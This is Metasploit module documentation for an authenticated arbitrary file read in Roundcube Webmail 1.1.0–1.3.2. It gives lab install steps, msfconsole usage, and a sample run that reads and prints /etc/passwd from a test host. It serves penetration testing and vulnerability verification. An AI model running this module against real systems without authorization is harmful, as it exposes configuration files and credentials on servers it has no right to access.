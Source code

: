 ## Vulnerable Application

Roundcube Webmail allows unauthorized access to arbitrary files on the host's filesystem, including configuration files.
This affects all versions from 1.1.0 through version 1.3.2. The attacker must be able to authenticate at the target system
with a valid username/password as the attack requires an active session.

Tested against version 1.3.2

### Install Roundcube 1.3.2 on Ubuntu 22.04

Instructions are loosely based on https://www.digitalocean.com/community/tutorials/how-to-install-your-own-webmail-client-with-roundcube-on-ubuntu-16-04

The main point of pain is installing PHP 7.0 on Ubuntu 22.04

#### Install LAMP

```
sudo apt-get install -y tasksel
sudo tasksel install lamp-server
```

#### Install PHP 7.0

```
sudo apt install software-properties-common ca-certificates lsb-release apt-transport-https dbconfig-sqlite3 php7.0-sqlite3
LC_ALL=C.UTF-8 sudo add-apt-repository ppa:ondrej/php
sudo apt update
sudo apt-get install php7.0 php7.0-xml php7.0-mbstring php7.0-intl php7.0-zip
sudo a2dismod php8.1
sudo a2enmod php7.0
```

#### Configure PHP

```
sudo nano /etc/php/7.0/apache2/php.ini
```

Uncomment the following lines:

```
extension=php_mbstring.dll
extension=php_xmlrpc.dll
extension=php_pdo_sqlite.dll
```

Add the following line to the end of the extension list:

```
extension=dom.so
```

Uncomment and change the following values:

```
date.timezone = "America/New_York"
upload_max_filesize = 12M
post_max_size = 18M
mbstring.func_overload = 0
```

Save and close the file, now reload Apache

```
sudo systemctl restart apache2
```

#### Install dovecot

```
sudo apt install dovecot-imapd
```

#### Install Roundcube

```
wget https://github.com/roundcube/roundcubemail/releases/download/1.3.2/roundcubemail-1.3.2-complete.tar.gz -O /tmp/roundcubemail-1.3.2-complete.tar.gz
sudo tar -zxf /tmp/roundcubemail-1.3.2-complete.tar.gz -C /var/www/html/
sudo chown -R root:root /var/www/html/roundcubemail-1.3.2/
```

Browse to `/installer`.  Almost all settings will be kept as default,
however, for the database setup we'll use a sqlite db for ease.
Select `SQLite`, and change the Database name to `/tmp/roundcube.db`.
all other fields within `db_dsnw` should be blank.

On the next screen, make sure to click the button under Check DB config
to create the initial database.

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use auxiliary/gather/roundcube_auth_file_read`
1. Do: `set rhost [ip]`
1. Do: `set USERNAME [username]`
1. Do: `set PASSWORD [password]`
1. Do: `run`
1. You should get contents of specified file.

## Options

## Scenarios

### Roundcube 1.3.2 with php 7.0 on Ubuntu 22.04

```
resource (msf)> set rhost 10.10.10.10
rhost => 10.10.10.10
resource (msf)> set TARGETURI /roundcubemail-1.3.2/
TARGETURI => /roundcubemail-1.3.2/
resource (msf)> set rport 80
rport => 80
resource (msf)> set verbose true
verbose => true
resource (msf)> set USERNAME roundcube_user
USERNAME => roundcube_user
resource (msf)> set PASSWORD roundcube_password
PASSWORD => roundcube_password
msf6 auxiliary(gather/roundcube_auth_file_read) > run
[*] Running module against 10.10.10.10

[+] Token Value: JDGak0VjivacBBT9FVJbN4eqaelDHLX0
[*] Attempting login
[*] Attempting exploit
[+] root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
arangodb:x:998:999:ArangoDB Application User:/usr/share/arangodb3:/bin/false
dnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
postgres:x:115:121:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
dovecot:x:116:122:Dovecot mail server,,,:/usr/lib/dovecot:/usr/sbin/nologin
dovenull:x:117:123:Dovecot login user,,,:/nonexistent:/usr/sbin/nologin
roundcube_user:x:1001:1001:,,,:/home/roundcube_user:/bin/bash
```
